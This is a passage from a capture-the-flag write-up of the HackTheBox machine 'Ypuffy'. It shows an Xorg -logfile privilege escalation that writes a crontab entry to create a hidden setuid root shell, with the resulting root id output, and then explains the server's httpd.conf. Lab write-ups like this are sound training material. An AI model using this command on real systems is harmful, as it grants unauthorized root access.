 

If you do happen to overwrite another file, then it will save the
original file by appending `.old`.

Another options for a cron would be to make a setuid shell:



    ypuffy$ Xorg -fp "* * * * * root cp /bin/sh /usr/local/bin/.df; chmod 4777 /usr/local/bin/.df" -logfile crontab :1 &



Wait for the minute to roll, and:



    ypuffy$ /usr/local/bin/.df 
    ypuffy# id
    uid=5000(alice1978) euid=0(root) gid=5000(alice1978) groups=5000(alice1978)



### WebServer Config

#### Apache

`/etc/httpd.conf` shows how the server is set up:



    server "ypuffy.hackthebox.htb" {
            listen on * port 80

            location "/userca*" {
                    root "/userca"
                    root strip 1
                    directory auto index
            }

            location "/sshauth*" {
                    fastcgi socket "/run/wsgi/sshauthd.socket"
            }

            location * {
                    block drop
            }
    }



The server listens on 80, and there are three paths it cares about:

1.  `/userca*` - Any path starting with that (so `/userca`, `/usercaa`,
    and `/userca0xdf`) all resolve to the `/var/www/userca` folder, with
    dir listing enabled.

    <div>

    <div>

        ypuffy# pwd
        /var/www/userca
        ypuffy# ls
        ca.pub
